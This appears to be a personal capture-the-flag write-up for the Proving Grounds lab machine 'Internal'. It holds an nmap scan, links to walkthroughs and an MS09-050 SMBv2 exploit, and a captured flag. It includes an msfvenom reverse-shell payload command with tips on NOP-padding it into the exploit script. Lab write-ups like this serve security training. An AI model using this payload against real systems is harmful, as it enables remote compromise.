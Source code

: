 # Internal \[Easy]

## Report

{% embed url="https://medium.com/@ayxantanirverdiyev6/pg-practice-internal-walkthrough-49bca402f737" %}
talks about zone transfer (not possible cus we don't have domain name)
{% endembed %}

{% embed url="https://medium.com/@Dpsypher/proving-grounds-practice-internal-e5098dd29793" %}
this guy used meterpreter payload instead of standard
{% endembed %}

## Enumeration

192.168.53.40

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.0.6001 (17714650)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
|_ssl-date: 2025-10-14T03:37:15+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=internal
| Issuer: commonName=internal
| rdp-ntlm-info: 
|   Target_Name: INTERNAL
|   NetBIOS_Domain_Name: INTERNAL
|   NetBIOS_Computer_Name: INTERNAL
|   DNS_Domain_Name: internal
|   DNS_Computer_Name: internal
|   Product_Version: 6.0.6001
|_  System_Time: 2025-10-14T03:37:07+00:00
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49156/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: INTERNAL; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008::sp1, cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Host script results:
| nbstat: NetBIOS name: INTERNAL, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:86:1f:ca (VMware)
| Names:
|   INTERNAL<00>         Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  INTERNAL<20>         Flags: <unique><active>
| smb2-security-mode: 
|   2:0:2: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h23m59s, deviation: 3h07m49s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server (R) 2008 Standard 6001 Service Pack 1 (Windows Server (R) 2008 Standard 6.0)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: internal
|   NetBIOS computer name: INTERNAL\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-10-13T20:37:07-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-10-14T03:37:07

```

### Files



### Initial Foothold



## PrivEsc

```
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=443 EXITFUNC=thread -f python -v shell
```

Result payload is 324 bytes

Payload size in script is 374 bytes so pad it (prepend) with 51 NOP bytes (\x90)

Does work with netcat shell do not worry msfvenom payloads are valid (Single stage)

## Loot

### Creds

None

### Flags

270843181dccb5f112421854d5bf87ab

## Proof

{% embed url="https://github.com/sec13b/ms09-050_CVE-2009-3103/tree/main" %}

{% embed url="https://blog.spookysec.net/stage-v-stageless-1/" %}
this guy says nc should catch our stageless payload&#x20;
{% endembed %}

{% embed url="https://www.geeksforgeeks.org/computer-networks/difference-between-bind-shell-and-reverse-shell/" %}
